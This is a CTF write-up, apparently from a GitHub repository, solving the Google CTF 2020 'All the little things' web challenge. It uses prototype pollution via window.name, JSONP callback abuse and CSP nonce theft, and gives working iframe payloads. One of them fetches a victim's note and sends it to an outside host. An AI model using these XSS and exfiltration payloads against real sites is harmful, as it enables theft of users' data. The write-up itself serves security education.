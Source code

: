 ## Owner:

> CaptainFreak

#### Solved?

 - No

#### Tried:

 Did not try much TBH

#### Solutions:

With prototype pollution(unintended solution) on window.name (because it is persisted in browser even if origin changes),
we override the user.theme.cb propoerty, which is used in 
`<script src='/theme?cb=${user.theme.cb}'>`

/theme?cb="payload" reflects payload in the response

By making window.name to on our attacker site

```
{
   "__proto__": {},
   "theme": {
      "cb": "document.body.innerHTML=window.name.toString"
   },
   "anything": "<h1>Hi!</h1>"
}
```

and making him redirect to ctf chall,
we can write the whole window.name to DOM of victim page of chall

So we have arbitrary HTMLi on littlethings domain

but its not full XSS yet cause of CSP nonce.

We can steal and apply this nonce on our own script tag by using multiple callbacks  and then writing arbitrary code to tag and it will execute it.

```
<iframe name=x title='fetch(&#x22;/note&#x22;).then(x=>x.text()).then(x=>top.locations=&#x22;//ctf.s1r1us.ninja?html=&#x22;+btoa(encodeURIComponent(x)))' id=y srcdoc='<script><\/script>'></iframe> 
	
<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.nonce=top.document.body.lastElementChild.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.nonce.valueOf ><\/script>'></iframe>

<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.document.head.lastElementChild.nonce=top.x.nonce.valueOf ><\/script>'></iframe>

<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.document.head.lastElementChild.innerHTML=top.y.title.valueOf ><\/script>'></iframe>
```

Multiple ways to exfil data though, check out:

In Fixed version,
to get arbitrary HTMLi first, we dont have prototype pollution to the rescue,The challenge name was the hint towards it.

We need to use "document.all" which is undefined but still exists!!
then again after Arbitrary xss, we use CSP bypasses to the rescue.

- https://github.com/zoeyg/public-write-ups/blob/master/googlectf-2020/all-the-little-things.md
- https://blog.s1r1us.ninja/CTF/IuseBing






